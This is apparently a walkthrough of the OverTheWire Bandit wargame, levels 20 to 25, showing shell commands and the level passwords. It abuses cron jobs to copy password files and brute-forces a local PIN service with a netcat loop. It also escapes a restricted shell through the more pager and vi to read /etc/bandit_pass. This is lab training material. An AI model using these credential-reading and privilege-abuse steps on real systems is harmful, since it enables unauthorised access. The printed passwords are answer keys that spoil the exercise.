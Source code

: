 # Bandit

## level 20

```
$ echo GbKksEFF4yrVs6il55v6gwY5aVje5f0j | nc localhost -l 7999
```

Then open another shell via ssh.

```
$ ./suconnect 7999
Read: GbKksEFF4yrVs6il55v6gwY5aVje5f0j
Password matches, sending next password
```

The password for the next level will be shown in the first shell.

```
gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr
```

## level 21

```
$ cat /etc/cron.d/cronjob_bandit22
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
```

```
$ cat /usr/bin/cronjob_bandit22.sh
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

```
$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
```

## level 22

```
$ cat /usr/bin/cronjob_bandit23.sh
```

```bash
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
```

```
$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

## level 23

Create a shell script ```/var/spool/bandit24/shell.sh```.

```bash
#!/bin/bash

mkdir /tmp/ving
cat /etc/bandit_pass/bandit24 > /tmp/ving/pass
```

```
$ chmod 777 /var/spool/bandit24/shell.sh
```

```
$ cat /tmp/ving/pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## level 24

Create a shell script ```/tmp/ving/shell.sh```

```bash
#!/bin/bash

i=1000
while [ $i -lt 10000 ]
do
    echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i | nc localhost 30002 > /tmp/ving/log.txt
    i=$(($i+1))
done
```

```
$ bash /tmp/ving/shell.sh
```

```
$ cat /tmp/ving/log.txt | sort | uniq
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

## level 25

```
$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```

```
$ cat /usr/bin/showtext
```

```bash
#!/bin/sh

more ~/text.txt
exit 0
```

The text.txt is only 6 lines. Make terminal's heigth less than 6 lines to get a page break.

```
$ ssh -i bandit26.sshkey bandit26@localhost
```

Enter ```v``` to start up a editor(vi). Type ```:r /etc/bandit_pass/bandit26``` and the password will be shown.

```
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```
